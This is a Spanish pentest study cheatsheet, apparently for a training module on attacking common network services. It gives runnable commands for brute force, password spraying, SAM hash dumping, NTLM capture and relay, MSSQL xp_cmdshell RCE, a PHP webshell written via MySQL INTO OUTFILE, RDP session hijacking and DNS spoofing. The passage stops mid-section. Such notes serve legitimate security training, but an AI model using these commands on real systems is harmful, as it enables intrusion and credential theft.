






# Attacking Common Services — Cheatsheet

> 📋 Cheatsheet de referencia (comandos, tablas, metodología) — **no** es un writeup de laboratorio con capturas. Para los writeups con capturas de Skills Assessments resueltos, ver `$ ls modulos/` en el README principal.

## Contenido

- [Attacking Common Services — Índice, cheatsheet y metodología](#attacking-common-services--índice-cheatsheet-y-metodología)
- [Atacando FTP](#atacando-ftp)
- [Atacando SMB](#atacando-smb)
- [Atacando bases de datos SQL](#atacando-bases-de-datos-sql)
- [Atacando RDP](#atacando-rdp)
- [Atacando SMTP (y servicios de correo)](#atacando-smtp-y-servicios-de-correo)
- [Atacando el DNS](#atacando-el-dns)

---

## Attacking Common Services — Índice, cheatsheet y metodología

Nota índice del módulo: enlaces a todas las notas, la **metodología** para pasar de servicio detectado a acceso, y la **cheatsheet** completa.

> [!NOTE]
> **Relación con Footprinting**
> Este módulo da por hecha la **enumeración** de cada servicio (puertos, banners, configuración, sesión nula) — eso vive en el módulo **Footprinting**. Aquí el foco es **convertir lo enumerado en acceso**: malas configuraciones, fuerza bruta, RCE, robo/reutilización de credenciales.

---

### Índice de notas

- **Archivos** → **Atacando FTP** · **Atacando SMB**
- **Bases de datos** → **Atacando bases de datos SQL**
- **Acceso remoto** → **Atacando RDP**
- **Correo y DNS** → **Atacando SMTP** · **Atacando el DNS**

---

### Metodología — de servicio a acceso

1. **Enumerar** el servicio (puertos, versión, banner) → ver **Footprinting**.
2. **Probar malas configuraciones** primero (más rápido y silencioso que la fuerza bruta): sesión anónima/nula, credenciales por defecto.
3. Si no hay acceso directo, **fuerza bruta** de credenciales (Hydra / CrackMapExec-NetExec) — ver **Servicios en red**.
4. Con credenciales válidas, **escalar el acceso**: ejecución remota de comandos (RCE), lectura/escritura de ficheros, volcado de hashes.
5. Si consigues un **hash** en vez de contraseña en claro: crackéalo o reutilízalo directamente (**Pass-the-Hash**) → ver **Pass the Hash (PtH)**.
6. Si nada de lo anterior funciona: **captura de credenciales** forzando autenticación hacia ti (Responder, `xp_dirtree`/`xp_subdirs`) y, si no se puede crackear el hash, **retransmítelo** (`ntlmrelayx`).



---

### Cheatsheet

#### FTP

| Comando | Qué hace |
|---------|----------|
| `ftp <IP>` / `nc -v <IP> 21` | Conectar al servicio |
| Login `anonymous` / `anonymous` | Probar acceso anónimo |
| `hydra -l <user> -P <wordlist> ftp://<IP>` | Fuerza bruta |

#### SMB

| Comando | Qué hace |
|---------|----------|
| `smbclient -N -L //<IP>` | Listar shares (sesión nula) |
| `smbmap -H <IP>` / `--download` / `--upload` | Enumerar shares/permisos, bajar/subir ficheros |
| `rpcclient -U'%' <IP>` · `enum4linux-ng.py <IP> -A -C` | Sesión nula RPC / enumeración automatizada |
| `crackmapexec smb <IP> -u <lista> -p '<pass>'` | Password spraying |
| `impacket-psexec user:'pass'@<IP>` | RCE → shell SYSTEM |
| `crackmapexec smb <IP> -u u -p p -x 'cmd' --exec-method smbexec` | Ejecutar comando remoto |
| `crackmapexec smb <IP> -u u -p p --sam` | Volcar hashes de la SAM |
| `crackmapexec smb <IP> -u u -H <hash>` | Pass-the-Hash |
| `responder -I <iface>` → `impacket-ntlmrelayx -t <IP>` | Capturar hash NetNTLM → retransmitir |

#### Bases de datos SQL

| Comando / Consulta | Qué hace |
|---------------------|----------|
| `mysql -u u -p<pass> -h <IP>` · `sqsh -S <IP> -U u -P '<pass>' -h` | Conectar a MySQL / MSSQL (Linux) |
| `sp_configure 'xp_cmdshell', 1; RECONFIGURE;` → `xp_cmdshell 'whoami'` | Habilitar y usar RCE en MSSQL |
| `SELECT "..." INTO OUTFILE '<ruta>'` | Escribir fichero (MySQL) |
| `OPENROWSET(BULK N'<ruta>', SINGLE_CLOB)` · `LOAD_FILE("<ruta>")` | Leer fichero (MSSQL / MySQL) |
| `xp_dirtree`/`xp_subdirs '\\IP\share\'` | Robar hash de la cuenta de servicio MSSQL |
| `SELECT srvname FROM sysservers` → `EXECUTE('...') AT [servidor]` | Enumerar y pivotar por linked servers |

#### RDP

| Comando | Qué hace |
|---------|----------|
| `crowbar -b rdp -s <IP/32> -U <lista> -c '<pass>'` · `hydra -L <lista> -p '<pass>' <IP> rdp` | Fuerza bruta / spraying |
| `query user` → `sc create sessionhijack binpath= "cmd.exe /k tscon <ID> /dest:rdp-tcp#0"` → `net start sessionhijack` | Secuestrar sesión como SYSTEM sin contraseña |
| `reg add ...DisableRestrictedAdmin /d 0x0` → `xfreerdp /v:<IP> /u:<user> /pth:<hash>` | Pass-the-Hash por RDP |

#### DNS

| Comando | Qué hace |
|---------|----------|
| `dig AXFR @<ns> <dominio>` | Transferencia de zona |
| `fierce --domain <dominio>` · `subbrute.py <dominio> -s <lista> -r <resolvers>` | Fuerza bruta de subdominios |
| `/etc/ettercap/etter.dns` → `ettercap -T -q -i <iface> -M arp:remote -P dns_spoof /<víctima>// /<gw>//` | DNS spoofing (MITM + ARP poisoning) |

#### SMTP / correo

| Comando | Qué hace |
|---------|----------|
| `EXPN <lista>` · `RCPT TO:<user>` · `smtp-user-enum -M <modo> -U <lista> -D <dominio> -t <IP>` | Enumerar usuarios de correo |
| `hydra -l <user> -P <lista> -f <IP> pop3` | Fuerza bruta de un buzón |
| `swaks --from a@x --to b@y --server <IP>` | Probar open relay |
| `o365spray.py --validate/--enum/--spray --domain <d>` | Confirmar O365, enumerar usuarios, password spraying |

---

Relacionado: **0 - Footprinting (Índice y cheatsheet)** · **0 - Information Gathering Web (Índice y guía)** · **0 - Password Attacks (Índice y cheatsheet)** · **0 - CPTS (Índice general)**

---

## Atacando FTP

> [!NOTE]
> **Enumeración vs. explotación**
> La enumeración a fondo de FTP (banners, `nmap --script ftp-anon`, comandos del cliente, `/etc/vsftpd.conf`...) ya está en **FTP** (módulo Footprinting). Aquí nos quedamos solo con **cómo convertir lo detectado en acceso**: abusar de malas configuraciones y fuerza bruta.

---

### Conectarse al servicio

Dos formas rápidas de interactuar con el servicio antes de atacarlo:

```bash
ftp 192.168.2.142
```
Cliente FTP nativo — abre una sesión interactiva para autenticarte.

```bash
nc -v 192.168.2.142 21
```
Con **netcat**, para leer el banner y hablar el protocolo a mano sin el cliente FTP.

---

### Malas configuraciones

#### Inicio de sesión anónimo

Si el servidor tiene `anonymous_enable=YES` (ver detalle en **FTP**), se puede entrar sin credenciales reales:

```bash
ftp 192.168.2.142
Name: anonymous
Password: anonymous
```

> [!TIP]
> **Qué hacer una vez dentro**
> Si además hay `write_enable=YES` + `anon_upload_enable=YES`, puedes **subir** ficheros — útil para dejar una webshell si ese mismo directorio lo sirve un servidor web. Revisa siempre los permisos de escritura con `put <fichero_de_prueba>` antes de asumir que solo puedes leer.

---

### Ataques específicos del protocolo

#### Fuerza bruta

```bash
hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142
```

| Flag | Qué es |
|------|--------|
| `-l <user>` | Un único usuario (minúscula) |
| `-L <lista>` | Lista de usuarios (mayúscula) |
| `-p <pass>` | Una única contraseña (minúscula) |
| `-P <lista>` | Lista de contraseñas (mayúscula) |

> [!NOTE]
> **Más detalle de Hydra**
> La sintaxis general de Hydra (y por qué `-l`/`-L` y `-p`/`-P` son mayúscula = lista) está explicada en **Servicios en red** (módulo Password Attacks), que no cubre FTP explícitamente pero sí el resto de servicios con la misma herramienta.

> [!WARNING]
> **fail2ban**
> Como con cualquier fuerza bruta remota: puede **banear tu IP** tras varios intentos fallidos. Controla el ritmo (`-t` en Hydra limita hilos concurrentes).

---

### Resumen rápido (cheatsheet)

| Comando | Qué hace |
|---------|----------|
| `ftp <IP>` | Conectar con el cliente FTP |
| `nc -v <IP> 21` | Conectar/leer banner con netcat |
| Login `anonymous` / `anonymous` (o vacío) | Probar acceso anónimo |
| `hydra -l <user> -P <wordlist> ftp://<IP>` | Fuerza bruta de credenciales |
| `hydra -L <userlist> -P <wordlist> ftp://<IP>` | Fuerza bruta con lista de usuarios |

---

Relacionado: **FTP** (enumeración completa, módulo Footprinting) · **Servicios en red** (fuerza bruta a otros servicios) · **Atacando SMB** · **0 - Attacking Common Services (Índice y cheatsheet)**

---

## Atacando SMB

> [!NOTE]
> **Enumeración vs. explotación**
> Puertos, daemons, `smb.conf` y la enumeración básica (sesión nula, `rpcclient`, `enum4linux`) ya están en **SMB** (módulo Footprinting). Aquí: **de la sesión nula a shell/credenciales** — recursos compartidos, fuerza bruta, RCE, Pass-the-Hash y captura/relay de hashes.

**SMB (Server Message Block)** da acceso compartido a archivos e impresoras entre nodos de una red. Corre directamente sobre TCP/IP en el **puerto 445**. **Samba** es la implementación de código abierto del protocolo para Unix/Linux — permite que servidores Linux/Unix y clientes Windows compartan los mismos servicios SMB.

---

### Malas configuraciones: autenticación anónima

La mayoría de herramientas que interactúan con SMB permiten **conectividad de sesión nula** (sin credenciales): `smbclient`, `smbmap`, `rpcclient`, `enum4linux`.

#### Recurso compartido de archivos

```bash
smbclient -N -L //10.129.14.128
```
`-L` lista los recursos compartidos del servidor; `-N` indica a `smbclient` que use **sesión nula**.

**smbmap** va un paso más allá: lista los shares **y los permisos** que tienes sobre cada uno.

```bash
smbmap -H 10.129.14.128
```
```bash
smbmap -H 10.129.14.128 -r notes
```
`-r`/`-R` (recursivo) explora el contenido de un directorio dentro del share.

```bash
smbmap -H 10.129.14.128 --download "notes\note.txt"
```
```bash
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```
Descargar/subir un fichero concreto — si el share tiene permiso de escritura, puedes dejar una webshell o una herramienta.

#### Llamada a procedimiento remoto (RPC)

```bash
rpcclient -U'%' 10.10.110.17
```
Sesión nula (`-U'%'` = usuario vacío, sin contraseña) para lanzar consultas RPC. Dentro:

```
enumdomusers
```
Enumera los usuarios del dominio.

#### Enumeración automatizada

```bash
./enum4linux-ng.py 10.10.11.45 -A -C
```
`-A` (*do all*) + `-C` para una enumeración completa y automatizada del servicio SMB.

> [!TIP]
> **Detalle de cada herramienta**
> `rpcclient`, `smbmap`, `enum4linux`/`enum4linux-ng` con todos sus comandos y opciones están documentados a fondo en **SMB** (Footprinting) — aquí solo el uso directo para pasar de "sesión nula" a información aprovechable.

---

### Ataques específicos del protocolo

#### Password spraying con CrackMapExec

**CrackMapExec** permite ejecutar un comando en **múltiples hosts a la vez**. Necesita protocolo (`smb`), objetivo, `-u`/`-p` (usuario/contraseña) y, para ejecutar comandos, `-x`/`-X` (cmd/PowerShell).

```bash
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'
```
Prueba la **misma contraseña** contra una lista de usuarios (*password spraying* — evita el lockout de probar muchas contraseñas contra un solo usuario).

> [!NOTE]
> **CrackMapExec → NetExec (añadido)**
> `crackmapexec` está descontinuado; su sucesor mantenido es **NetExec** (`nxc`), con la misma sintaxis (`nxc smb <IP> -u users.txt -p 'Company01!'`). Los comandos de esta nota siguen la cheatsheet original de HTB (CME); si no tienes `crackmapexec` instalado, sustitúyelo por `nxc`.

#### Ejecución remota de código (RCE)

**Impacket-psexec:**

```bash
impacket-psexec administrator:'Password123!'@10.10.110.17
```
Con credenciales válidas de administrador, abre una shell **SYSTEM** en el objetivo (como la herramienta [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) de Sysinternals, pero reimplementada).

**CrackMapExec:**

```bash
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```
Ejecuta un comando (`-x` = cmd, `-X` = PowerShell) sobre SMB. `--exec-method smbexec` fuerza el método de ejecución (alternativas: `wmiexec`, `atexec`).

#### Enumeración de usuarios con sesión iniciada

```bash
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```
Con un **CIDR** en vez de una IP, enumera qué usuarios tienen sesión iniciada en **todas las máquinas de la red** a la vez — acelera mucho la fase de reconocimiento de una red interna.

#### Extraer hashes de la base de datos SAM

```bash
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```
Con credenciales de administrador local, vuelca el contenido de la **SAM** (hashes NT de las cuentas locales).

#### Pass-the-Hash (PtH)

```bash
crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```
Autentica usando el **hash NT** directamente (`-H`), sin necesitar la contraseña en claro.

> [!NOTE]
> **Más técnicas de PtH**
> El resto de herramientas para Pass-the-Hash (Mimikatz, Invoke-TheHash, evil-winrm, xfreerdp `/pth`) están cubiertas a fondo en **Pass the Hash (PtH)** (módulo Password Attacks) — aquí solo la variante con CrackMapExec/NetExec.

---

### Ataques de autenticación forzada (Responder + relay)

También se puede abusar de SMB montando un **servidor falso** que capture hashes de autenticación en vez de robarlos de un objetivo ya comprometido.

[**Responder**](https://github.com/lgandx/Responder) es un *poisoner* de LLMNR, NBT-NS y mDNS: cuando una máquina de la red intenta resolver un nombre que no existe (típicamente por error tipográfico o un recurso caído), Responder responde haciéndose pasar por ese recurso y **captura el hash NetNTLMv1/v2** de quien intenta autenticarse.

```bash
responder -I <interfaz>
```



Si el hash capturado **no se puede crackear**, se puede **retransmitir en vivo** a otra máquina de la red con [impacket-ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (o `MultiRelay.py` de Responder), siempre que esa cuenta tenga privilegios allí y **la firma SMB esté desactivada** en el objetivo del relay.

```bash
cat /etc/responder/Responder.conf | grep 'SMB ='
```
Comprueba que Responder **no tenga su propio servidor SMB activo** (si lo tiene, hay que desactivarlo para que `ntlmrelayx` pueda usar el puerto 445).

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```
Retransmite el hash capturado al objetivo (`-t`). Por defecto, **vuelca la SAM** del objetivo; añadiendo `-c '<comando>'` se puede ejecutar un comando en su lugar.

---

### Resumen rápido (cheatsheet)

| Comando | Qué hace |
|---------|----------|
| `smbclient -N -L //<IP>` | Listar shares (sesión nula) |
| `smbmap -H <IP>` / `-r <dir>` | Enumerar shares + permisos / recursivo |
| `smbmap -H <IP> --download/--upload <f>` | Descargar / subir un fichero |
| `rpcclient -U'%' <IP>` → `enumdomusers` | Sesión nula RPC → enumerar usuarios |
| `enum4linux-ng.py <IP> -A -C` | Enumeración automatizada completa |
| `crackmapexec smb <IP> -u <lista> -p '<pass>'` | Password spraying |
| `impacket-psexec user:'pass'@<IP>` | Shell SYSTEM por RCE |
| `crackmapexec smb <IP> -u u -p p -x 'cmd' --exec-method smbexec` | Ejecutar comando remoto |
| `crackmapexec smb <CIDR> -u u -p p --loggedon-users` | Usuarios con sesión iniciada (red entera) |
| `crackmapexec smb <IP> -u u -p p --sam` | Volcar hashes de la SAM |
| `crackmapexec smb <IP> -u u -H <hash>` | Pass-the-Hash |
| `responder -I <iface>` | Capturar hashes NetNTLM (poisoning) |
| `impacket-ntlmrelayx --no-http-server -smb2support -t <IP>` | Retransmitir el hash capturado |

---

Relacionado: **SMB** (enumeración completa, módulo Footprinting) · **Pass the Hash (PtH)** (más técnicas de PtH) · **Servicios en red** (fuerza bruta) · **Atacando FTP** · **Atacando bases de datos SQL** · **0 - Attacking Common Services (Índice y cheatsheet)**

---

## Atacando bases de datos SQL

> [!NOTE]
> **Enumeración vs. explotación**
> Puertos, modos de autenticación, bases de datos del sistema y la sintaxis SQL básica ya están en **MYSQL** y **MSSQL** (módulo Footprinting) — la propia nota de MSSQL deja explícitamente **xp_cmdshell, lectura de ficheros y linked servers para "más adelante"**. Esta nota es justo ese "más adelante": de credenciales válidas a **ejecución de comandos, lectura/escritura de ficheros, robo de hashes y escalada vía impersonación/linked servers**.

Los sistemas de gestión de bases de datos relacionales (RDBMS) como **MySQL** y **MSSQL** almacenan datos en tablas/columnas/filas y se consultan con **SQL**. MySQL escucha en `TCP/3306`; MSSQL en `TCP/1433` (`TCP/2433` si corre en modo "oculto") y `UDP/1434`.

---

### Conexión

```bash
mysql -u julio -pPassword123 -h 10.129.20.13
```
Cliente nativo de MySQL (`-p` **pegado** a la contraseña, sin espacio).

```bash
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
```
`sqsh` conecta a MSSQL **desde Linux**.

```bash
sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30
```
`sqlcmd`/Impacket (`mssqlclient.py`, ver **MSSQL** y la sección **mssqlclient.py (Impacket)** más abajo) son la alternativa habitual.

> [!NOTE]
> **Autenticación de Windows desde Linux**
> Si el MSSQL usa **Windows Authentication** (ver **MSSQL**), con `sqsh` el usuario se indica como `-U .\\julio` (el `.\\` antepuesto indica cuenta local del dominio/host, no de SQL Server).

---

### Nada más conectar (MSSQL)

Antes de intentar explotar nada, lanza siempre este mini-playbook de reconocimiento — te dice si ya puedes ir directo a `xp_cmdshell` o si primero necesitas escalar:

```sql
SELECT SYSTEM_USER, USER_NAME();          -- quién soy
SELECT IS_SRVROLEMEMBER('sysadmin');      -- ¿admin directo?
SELECT srvname, isremote FROM sysservers; -- ¿linked servers?

SELECT pr.name, pe.permission_name        -- ¿puedo impersonar a alguien?
FROM sys.server_permissions pe
JOIN sys.server_principals pr ON pe.grantee_principal_id = pr.principal_id
WHERE pe.permission_name = 'IMPERSONATE';
```

> [!TIP]
> **Qué hacer con cada resultado**
> - `IS_SRVROLEMEMBER('sysadmin')` → **1** = ve directo a **Ejecutar comandos**. **0** = sigue leyendo.
> - `sysservers` con filas → hay **linked servers**; puede que el salto a otra instancia sí sea sysadmin aunque esta no lo sea.
> - La query de `IMPERSONATE` con filas → **no necesitas ser sysadmin**: puedes suplantar a un login que sí lo sea. Ver el flujo completo en **Flujo de escalada**.

---

### Privilegios

Lo que se puede hacer dentro de un SQL Server depende por completo de los **privilegios del usuario** con el que te autenticas:

- Leer o cambiar el contenido de una base de datos.
- Leer o cambiar la configuración del servidor.
- Ejecutar comandos del sistema.
- Leer archivos locales.
- Comunicarse con otras bases de datos (**linked servers**).
- Capturar el hash del sistema local.
- Suplantar usuarios existentes.
- Obtener acceso a otras redes.

#### MySQL / MariaDB

```sql
SELECT Super_priv, File_priv, Grant_priv FROM mysql.user WHERE User = SUBSTRING_INDEX(CURRENT_USER(),'@',1);
```
El que más interesa para explotación es **`File_priv = Y`**: con eso puedes leer ficheros del sistema (`LOAD_FILE`) y dejar una webshell (`INTO OUTFILE`) — ver **Escribir** / **Leer archivos locales** más abajo.

#### MSSQL

No hace falta ser **`sysadmin`** a secas para escalar — estos roles de servidor también abren una vía de ataque:

| Rol | Por qué sirve para escalar |
|-----|------------------------------|
| **`sysadmin`** | Control total: `xp_cmdshell`, lectura/escritura de ficheros, todo. |
| **`securityadmin`** | Puede **crear logins y asignarles permisos** — incluido concederse a sí mismo (o a otro login que controles) el rol `sysadmin`. |
| **`bulkadmin`** | Permite usar `OPENROWSET(BULK...)` **sin ser sysadmin** — suficiente para leer ficheros locales (ver **Leer archivos locales**). |

> [!TIP]
> **Comprobación rápida**
> `SELECT IS_SRVROLEMEMBER('sysadmin');` (ya en el playbook de **Nada más conectar (MSSQL)**) se puede repetir cambiando el nombre del rol: `IS_SRVROLEMEMBER('securityadmin')`, `IS_SRVROLEMEMBER('bulkadmin')`.

---

### Bases de datos por defecto de MySQL

| Base de datos | Qué contiene |
|----------------|---------------|
| `mysql` | Tablas con información requerida por el propio servidor MySQL |
| `information_schema` | Metadatos de la base de datos (tablas, columnas...) |
| `performance_schema` | Monitorización de bajo nivel de la ejecución del servidor |
| `sys` | Objetos que ayudan a interpretar los datos de `performance_schema` |

> [!NOTE]
> Las bases de datos del sistema de MSSQL (`master`, `msdb`, `model`, `resource`, `tempdb`) ya están en la tabla de **MSSQL** — no se repiten aquí.

---

### Ejecutar comandos (xp_cmdshell)

`MSSQL` tiene **procedimientos almacenados extendidos** (*extended stored procedures*), entre ellos [`xp_cmdshell`](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql), que ejecuta comandos del sistema operativo usando SQL. Está **deshabilitado por defecto**; con privilegios `sysadmin` se puede habilitar:

```sql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
`RECONFIGURE` se ejecuta **después de cada** `sp_configure` para aplicar el cambio.

```sql
xp_cmdshell 'whoami'
```
Ejecuta el comando del sistema y devuelve la salida — **RCE** con los privilegios de la cuenta de servicio de MSSQL (a menudo `NT SERVICE\MSSQLSERVER` o incluso `SYSTEM`).

> [!WARNING]
> **Es una acción muy ruidosa**
> Habilitar `xp_cmdshell` modifica la configuración del servidor y queda registrado. Úsalo cuando ya tengas claro que vas a necesitarlo.

---

### Escribir archivos locales

**MySQL** — crear un fichero (p. ej. una webshell PHP) directamente desde una consulta:

```sql
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

> [!NOTE]
> **`secure_file_priv`**
> Esto solo funciona si `secure_file_priv` está vacío o apunta a una ruta que incluya el destino — comprobación y detalle completo en **MYSQL**.

---

### Leer archivos locales

**MSSQL:**
```sql
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents;
```

> [!NOTE]
> **Requisitos y sintaxis de `OPENROWSET(BULK...)`**
> - Necesita permiso **`ADMINISTER BULK OPERATIONS`** o el rol de servidor **`bulkadmin`** (no hace falta ser `sysadmin`, ver **tabla de roles**).
> - El prefijo **`N'...'`** marca la ruta como cadena **Unicode (nvarchar)** — `BULK` lo exige, una cadena normal (`'...'` sin `N`) falla.
> - La ruta acepta **barras normales** (`/`) aunque sea una ruta de Windows: `C:/Windows/...` funciona igual que `C:\Windows\...`.

**MySQL:**
```sql
SELECT LOAD_FILE("/etc/passwd");
```

---

### Capturar el hash del servicio MSSQL

MSSQL puede forzarse a **autenticarse contra una ruta UNC** (`\\<IP>\share\`) que controle el atacante — igual que en SMB (ver **Atacando SMB**), esto permite capturar el hash de la **cuenta de servicio de MSSQL**.

```sql
EXEC master..xp_dirtree '\\10.10.110.17\share\';
```
```sql
EXEC master..xp_subdirs '\\10.10.110.17\share\';
```
Ambos procedimientos listan directorios de una ruta — como efecto colateral, **fuerzan la autenticación SMB** del servicio MSSQL contra esa ruta.



```bash
sudo responder -I tun0
```
```bash
sudo impacket-smbserver share ./ -smb2support
```
Dos formas de **escuchar** en la IP que le pasas a `xp_dirtree`/`xp_subdirs`: Responder, o montar un servidor SMB con Impacket.

> [!TIP]
> **No hace falta crackearlo**
> Si el hash capturado **no se puede crackear**, retransmítelo en vivo con `impacket-ntlmrelayx` en vez de perder tiempo — el procedimiento completo (y por qué requiere que la firma SMB esté desactivada en el destino del relay) está en **Atacando SMB**. Si en cambio consigues la contraseña en claro o un hash NT reutilizable de la cuenta de servicio, considera **Pass-the-Hash** directamente → **Pass the Hash (PtH)**.

---

### Flujo de escalada: impersonación + linked servers

Qué hacer cuando el playbook de **Nada más conectar (MSSQL)** dice que **no eres sysadmin** pero sí tienes `IMPERSONATE` sobre algún login, o hay **linked servers** a otra instancia.

#### 1. No soy sysadmin → enumero a quién puedo impersonar

```sql
SELECT pr.name, pe.permission_name
FROM sys.server_permissions pe
JOIN sys.server_principals pr ON pe.grantee_principal_id = pr.principal_id
WHERE pe.permission_name = 'IMPERSONATE';
```
Lista los **logins que puedes suplantar** (columna `name`). Si `sa` o cualquier login con `sysadmin` aparece ahí, tienes el camino directo.

#### 2. Impersono con EXECUTE AS LOGIN

```sql
EXECUTE AS LOGIN = 'sa';
SELECT SYSTEM_USER;                     -- confirma que ahora eres 'sa'
SELECT IS_SRVROLEMEMBER('sysadmin');    -- debería devolver 1
```
A partir de aquí, **toda consulta corre con los privilegios de `sa`** (o el login que hayas suplantado) — puedes ir directo a **xp_cmdshell**.

```sql
REVERT;
```
Vuelve a tu login original. Úsalo cuando termines, o si necesitas volver a tu contexto de partida.

#### 3. Si no hay IMPERSONATE pero sí linked servers

```sql
SELECT srvname, isremote FROM sysservers;
```
Identifica instancias MSSQL **enlazadas** a la actual, accesibles sin credenciales adicionales.

#### 4. Compruebo con qué contexto llego al servidor remoto

```sql
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS];
```

> [!WARNING]
> **Las comillas internas se duplican**
> Todo lo que va dentro de `EXECUTE('...')` es una **cadena de texto** T-SQL. Para meter un literal con comillas simples dentro de esa cadena (`is_srvrolemember('sysadmin')`), cada comilla simple interna se **duplica**: `is_srvrolemember(''sysadmin'')`. Si se te olvida duplicarlas, la consulta se corta a mitad y falla con un error de sintaxis.

Si el resultado muestra `sysadmin = 1` en el servidor remoto, el ataque se repite allí.

#### 5. Leer un fichero o RCE en el servidor remoto

**Leer** (vía `OPENROWSET`, anidado dentro de `EXECUTE(...) AT`):
```sql
